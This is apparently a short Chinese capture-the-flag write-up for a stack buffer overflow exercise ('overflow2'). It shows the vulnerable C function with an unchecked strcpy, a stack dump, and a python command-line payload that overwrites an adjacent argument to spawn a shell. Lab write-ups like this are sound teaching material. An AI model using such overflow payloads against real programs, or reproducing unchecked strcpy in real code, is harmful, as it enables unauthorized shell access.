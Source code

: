 # 代码审计
```

void vuln(int win, char *str) {
    char buf[64];
    strcpy(buf, str);
    dump_stack((void **) buf, 23, (void **) &win);
    printf("win = %d\n", win);
    if (win == 1) {
        execl("/bin/sh", "sh", NULL);
    } else {
        printf("Sorry, you lose.\n");
    }
    exit(0);
}
```

从中我们可以看到，win是函数的参数，从输出中我们可以发现

>➜  overflow2 ./overflow2 $(python -c "print('a'*80)")                                                                          
Stack dump:
0xffd62b68: 0x000003e8
0xffd62b64: 0xffd642f3 (second argument)
0xffd62b60: 0x00000000 (first argument)    ←这里就是win
0xffd62b5c: 0x61616161 (saved eip)
0xffd62b58: 0x61616161 (saved ebp)
0xffd62b54: 0x61616161
0xffd62b50: 0x61616161
0xffd62b4c: 0x61616161
0xffd62b48: 0x61616161
0xffd62b44: 0x61616161
0xffd62b40: 0x61616161
0xffd62b3c: 0x61616161
0xffd62b38: 0x61616161
0xffd62b34: 0x61616161
0xffd62b30: 0x61616161
0xffd62b2c: 0x61616161
0xffd62b28: 0x61616161
0xffd62b24: 0x61616161
0xffd62b20: 0x61616161
0xffd62b1c: 0x61616161
0xffd62b18: 0x61616161
0xffd62b14: 0x61616161
0xffd62b10: 0x61616161 (beginning of buffer)
win = 0
Sorry, you lose.

因此覆盖到这个地方就好啦

>'a'*80+'\x01'
# 利用
再次利用python

```
➜  overflow2 ./overflow2 $(python -c "print('a'*80+'\x01')")
```
getshell